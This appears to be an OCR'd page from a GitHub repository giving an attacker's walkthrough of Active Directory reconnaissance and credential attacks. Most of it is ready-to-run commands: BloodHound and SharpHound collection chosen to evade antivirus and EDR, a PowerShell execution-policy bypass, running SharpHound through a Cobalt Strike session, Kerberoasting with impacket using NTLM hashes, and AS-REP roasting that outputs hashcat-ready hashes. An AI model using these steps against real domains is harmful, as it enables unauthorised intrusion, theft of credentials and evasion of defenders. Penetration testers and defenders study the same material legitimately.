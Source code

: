 Ultimately, you should have an active account in the domain. First of all, you need to get an AD dump and examine user rights, RDP connection permissions, user sessions, server names and GPOs. These can all be obtained with Bloodhound Collectors. But in order not to be noticed by antivirus or EDR, you can use network dump collection via Bloodhound.py:

```
python3 bloodhound.py -c All,LoggedOn -u someuser@jaki.local -d jaki.local
```

here you need to understand that you can be caught by Anomaly Detection Software or NGFW.

If you are on an inside machine without antivirus or EDR you can use the collectors:

```
Sharphound.exe -c All,LoggedOn
```

But it is much more efficient to use your own VM for this procedure, if, say, domain controller services are available from your attacking machine:

```
runas /netonly /U:someuser@jaki.local powershell
dir \\jaki.local\sysvol
powershell -exec bypass
./Sharphound.exe -c All,LoggedOn -d jaki.local
```

If it is possible to use a session from Cobalt Strike, run:

```
execute-assembly /tmp/Sharphound.exe -c All,LoggedOn -d jaki.local
```

At the same time, you have the opportunity to unload service accounts with the attribute SPN - Kerberoasting:

```
python GetUserSPNs.py -hashes :NTLM -request -target-domain jaki.local jaki.local/someuser
```

if ldap/ldaps ports are blocked but gc port 3268 is accessible - just fix ldap:// protocol to gc:// in impacket.
If it is forbidden to use NTLM authorization in the domain, use Kerberos authorization:

```
getTGT.py jaki.local/someuser -hashes :NTLM -dc-ip 10.10.1.1
export KRB5CCNAME=someuser@dc.jaki.local
python3 GetUserSPNs.py jaki.local/ -k -dc-ip dc.jaki.local -debug --request
```

TGS upload formats can be the following:

```
$krb5tgs$23$ - RC4
$krb5tgs$17$ - AES128
$krb5tgs$18$ - AES256
```

The same goes for AS-REP Roasting, this attack checks accounts without the PREAUTH flag:

```
GetADUsers.py jaki.local/someuser:somepassword -k -dc-ip dc.jaki.local -all --debug | cut -d ' ' -f 1 > /tmp/users.txt
python GetNPUsers.py JAKI/ -usersfile /tmp/users.txt -format hashcat -dc-ip 10.10.1.1
```
